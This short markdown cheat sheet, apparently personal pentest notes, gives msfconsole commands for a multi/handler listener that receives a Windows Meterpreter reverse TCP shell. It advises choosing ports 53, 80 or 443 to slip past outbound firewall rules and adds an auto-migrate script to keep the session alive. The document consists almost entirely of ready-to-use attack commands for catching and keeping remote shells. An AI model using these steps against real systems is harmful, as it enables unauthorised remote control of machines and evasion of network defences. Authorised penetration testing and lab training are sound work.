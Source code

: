 ```yaml
---
title: "Metasploit Listener"
date: 2024-6-26
tags: ["metasploit", "listener", "revshell", "msfconsole"]
---
```


---
### Start a Metasploit Listener

<div>

```bash
msfconsole -q
```

```bash
use exploit/multi/handler
```

```bash
set payload windows/meterpreter/reverse_tcp
```

```bash
set lhost 10.10.14.10
```

```bash
set lport 443
```

```bash
run
```

</div>

<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

### If the shell die immediately, we can try to migrate it to another process

<div>

```bash
# Create a automigrate.rc script
run post/windows/manage/migrate
```

</div>

<br>

<div>

```bash
msfconsole -q
```

```bash
use exploit/multi/handler
```

```bash
set payload windows/meterpreter/reverse_tcp
```

```bash
set lhost 10.10.14.10
```

```bash
set lport 443
```

```bash
set AutoRunScript multi_console_command -r automigrate.rc
```

```bash
run
```

</div>

<br>